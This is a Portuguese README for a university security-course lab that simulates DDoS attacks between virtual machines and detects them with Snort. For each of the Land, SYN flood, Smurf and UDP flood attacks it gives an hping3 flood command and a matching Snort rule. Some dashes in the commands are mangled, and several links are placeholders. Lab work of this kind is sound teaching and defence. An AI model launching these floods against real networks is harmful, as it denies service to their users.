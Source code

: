# IDS-DDoS-Sim

Repositório para a prática de Detecção de Intrusão sob ataques de Negação de Serviço Distribuídos (DDoS).

A motivação da criação desse repositório é ser um instrumento práticas de laboratório e de avaliação para a disciplina de Segurança Computacional, ofertada pelo Departamento de Informática da Universidade Federal do Espírito Santo (UFES).

## Laboratório Virtual

Nesse repositório é oferecido um ambiente controlado e isolado para a simulação dos ataques.

Foi levado em consideração a criação de um *Passo a Passo* para usuários que possuem diferentes Sistemas Operacionais. Entretando, o grupo que criou esse repositório realizou os testes em computadores com o sistema operacional baseado em GNU/Linux.

### Estrutura do Laboratório Virtual

Após o processo de instalação, o usuário poderá verificar a seguinte estrutura de máquinas virtuais:
inserir figura

## Preparação do Laboratório Virtual:
#### Pré-Requisitos:

> Nesta lista, estão citadas as aplicações utilizadas no projeto. Porém, fica a critério do usuário optar por outras apliacações de sua preferência.

- Virtual Box[^1]: https://www.virtualbox.org/
- Vagrant[^2]: https://www.vagrantup.com/
- Snort: https://www.snort.org/
- Hping3: https://www.kali.org/tools/hping3/


### Instalação do Virtualbox e do Vagrant:

- [Para usários de Linux]: (inserir link)
- [Para usuários de Windows]: (inserir link)
- [Para usuários de MacOS]: (inserir link)

### Preparação do Laboratório:

- [Sem o *Vagrantfile]: (inserir link)
- [Com o *Vagrantfile]: (inserir link)

## Simulações:

### Realizando Ataques de Negação de Serviço Distribuído e Detectando-os:

### Land Attack

- Hping3: 

`$ sudo hping3 -S 10.0.0.10 -a 10.0.0.10 -k -s 80 -p 80 –flood`

- Snort Rule:

`alert tcp $HOME_NET 80 <> $HOME_NET 80 (msg:”LAND ATTACK DETECTED”;sid:10000009;rev:3;)`

### SYN Flood Attack

- Hping3: 

`$ sudo hping3 — rand-source 10.0.0.10 -p 80 -S –flood`

- Snort Rule: 

`alert tcp any any -> $HOME_NET 80 (threshold: type threshold, track by_dst, count 20, seconds 60; msg: “Possible TCP SYN Flood attack detected”; sid: 10000009; rev: 1;)`

### Smurf Attack

- Hping3: 

`$ sudo hping3 -1 — icmptype 8 — icmpcode 0 -k — flood -a 10.0.0.10 192.168.0.255`

- Snort Rule:

`alert icmp $HOME_NET any -> 192.168.0.255 any (threshold: type threshold, track by_src, count 20, seconds 60;msg:”SMURF FLOODING ATTACK DETECTED”;sid:100000023;rev:1;)`
    
### UDP Flood Attack:

- Hping3: 
`$ sudo hping3 -2 — flood — rand-source -p 53 10.0.0.10`

- Snort Rule: 
`alert udp any any -> $HOME_NET 53 (threshold: type threshold, track by_src, count 10, seconds 60; msg:”UDP FLOODING ATTACK”;sid:10000007;rev:2;)`



[^1]: O usuário pode optar, de acordo com a sua preferência, por outros aplicativos para criar as Máquinas Virtuais.
[^2]: Nesse repositório é oferecido um script *Vagrantfile* com o objetivo de criar o laboratório virtual com todas aplicações e dependencias já instaladas. Entretanto, o uso do Vargrant é facultativo.

